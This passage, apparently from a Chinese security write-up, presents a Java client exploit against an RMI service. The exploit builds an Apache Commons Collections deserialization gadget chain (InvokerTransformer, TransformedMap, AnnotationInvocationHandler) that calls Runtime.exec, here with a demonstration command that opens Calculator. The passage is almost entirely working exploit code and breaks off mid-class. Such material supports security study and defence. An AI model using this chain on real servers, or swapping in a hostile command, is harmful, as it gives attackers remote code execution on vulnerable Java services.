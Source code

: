 因此客户端 exp 为：
```java
package com.rmi.client;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
import sun.rmi.server.UnicastRef;

import java.io.ObjectOutput;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.rmi.Remote;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.rmi.server.Operation;
import java.rmi.server.RemoteCall;
import java.rmi.server.RemoteObject;
import java.util.HashMap;
import java.util.Map;

/**
 * Created by dotast on 2023/1/4 16:39
 */
public class RmiClient {
    public static void main(String[] args) throws Exception {
        // CC链gadget
        String cmd = "open -a Calculator.app";

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                // new Class[0]为占位符
                new InvokerTransformer(
                        "getMethod",new Class[]{String.class, Class[].class},new Object[]{"getRuntime",new Class[0]}
                ),
                new InvokerTransformer(
                        "invoke",new Class[]{Object.class, Object[].class},new Object[]{null, new Object[0]}
                ),
                new InvokerTransformer(
                        "exec", new Class[]{String.class}, new Object[]{cmd}
                )
        };
        // 创建ChainedTransformer调用链
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        // 创建Map对象
        Map<Object, Object> map = new HashMap<>();
        map.put("value","value");
        // 调用TransformedMap创建一个含有恶意调用链的Transformer类的Map对象
        Map transformedMap = TransformedMap.decorate(map, null, chainedTransformer);

        // 获取AnnotationInvocationHandler类对象
        Class cls = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        // 获取AnnotationInvocationHandler类的构造方法
        Constructor constructor = cls.getDeclaredConstructor(Class.class, Map.class);
        // 设置方法访问权限
        constructor.setAccessible(true);
        // 创建含有攻击链的AnnotationInvocationHandler类实例
```